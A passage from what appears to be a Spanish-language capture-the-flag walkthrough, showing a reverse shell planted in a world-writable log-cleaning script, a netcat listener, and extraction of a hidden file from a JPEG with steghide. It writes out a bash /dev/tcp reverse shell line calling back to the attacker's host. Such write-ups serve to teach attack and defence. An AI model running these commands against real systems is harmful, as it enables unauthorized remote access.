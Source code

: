 ```shell
pedro@34e0296f5c5d:~$ ls -l /opt/
total 4.0K
-rwxrw-rw- 1 valentina valentina 30 Feb  9 01:47 log_cleaner.sh
```

Añadimos la siguiente línea al script para entablarnos una **reverse shell**. En mi caso, la dirección IP es la **192.168.1.12**.

```shell
bash -i >& /dev/tcp/192.168.1.12/443 0>&1
```

Y esperamos con el puerto 443 abierto en nuestro host para entablar conexión:

```shell
nc -lp 443
```

Esperamos, y obtenemos la reverse shell.

```shell
valentina@34e0296f5c5d:~$ whoami
valentina
```

## Escalada de privilegios
--------------------------

Listamos el contenido de /home/valentina y vemos que además de la flag, existe una imagen .jpeg.

```shell
valentina@34e0296f5c5d:~$ ls
fl4g.txt  profile_picture.jpeg
```

Transferimos el archivo a nuestro host y utilizamos **steghide** para verificar si se ha aplicando esteganografía. Nos pide una *passphrase*, pero no proporcionamos ninguna, sólo presionamos *Enter*. En los resultados observamos que existe un archivo incrustado, el cual es *secret.txt*.

```shell
steghide info profile_picture.jpeg
----------------------------------
"profile_picture.jpeg":
  format: jpeg
  capacity: 2.4 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secret.txt":
    size: 7.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Ahora, sabiendo que hay un archivo .txt en la imagen, lo extraemos.

```shell
steghide extract -sf profile_picture.jpeg
```
